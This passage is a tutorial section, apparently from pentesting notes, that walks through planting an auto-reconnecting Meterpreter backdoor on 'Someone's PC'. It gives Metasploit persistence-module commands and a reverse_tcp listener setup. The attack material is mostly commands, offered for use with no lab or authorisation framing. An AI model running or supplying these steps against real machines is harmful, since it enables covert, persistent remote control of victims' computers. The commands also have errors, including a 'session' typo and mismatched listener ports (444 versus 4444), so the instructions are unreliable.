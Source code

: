 
#### 8.8 Creating a Persistent meterpreter shell

How to install a Auto-Reconnecting Persistent Back Door on Someone's PC

before you do this you will need a session, if you are in a session already just use the **background** command to run the session in the background. 

then run 
```bash
session
```

![[Pasted image 20231113220223.png]]
> Figure 10 | Active Sessions

**Now lets set up this backdoor: -**
```bash
# Set the current payload
use exploit/windows/local/persistence

# Shows options
show options

# Set the payloads options
set SESSION 1 
set LHOST 192.168.10.253
set LPORT 444
set INTERVAL 5

exploit
```

**Setting up the listener: -**
```bash
# Setting the module
use exploit/multi/handler

# setting the payload
set PAYLOAD windows/meterpreter/reverse_tcp

# Setting the local host : Kali Linux Machine
set LHOST 192.168.10.253

# Setting the Local Port
set LPORT 4444

# Run the exploit in the background.
# -j runs the shell in the background. 
# -z Tells metasploit not to interact with the shell
exploit -j -z 
```

![[Pasted image 20231113224052.png]]
